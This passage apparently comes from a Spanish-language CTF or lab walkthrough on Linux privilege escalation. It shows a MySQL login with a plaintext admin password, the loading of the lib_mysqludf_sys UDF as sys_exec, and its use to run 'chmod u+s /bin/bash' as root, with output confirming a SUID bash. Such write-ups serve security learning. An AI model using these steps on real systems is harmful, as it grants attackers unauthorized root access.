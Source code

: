 ```shell
mysql -u admin -pPassAdmin123-
```

Vamos a realizar lo siguiente:

```mysql
USE mysql;
```

Info:

```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Ahora vamos a cargar la funcion:

```mysql
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
```

Info:

```
MariaDB [mysql]> CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
Query OK, 0 rows affected (0.001 sec)
```

Ahora podremos llamar a esta funcion que hemos creado como `sys_exec` y ejecutar cualquier comando como `root`, por lo que haremos lo siguiente:

```mysql
SELECT sys_exec('chmod u+s /bin/bash');
```

Info:

```
+---------------------------------+
| sys_exec('chmod u+s /bin/bash') |
+---------------------------------+
|                               0 |
+---------------------------------+
1 row in set (0.006 sec)
```

Vemos que ha funcionado por que nos salio un `0` y un `1` seria un error, por lo que si ahora salimos y listamos los permisos de la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
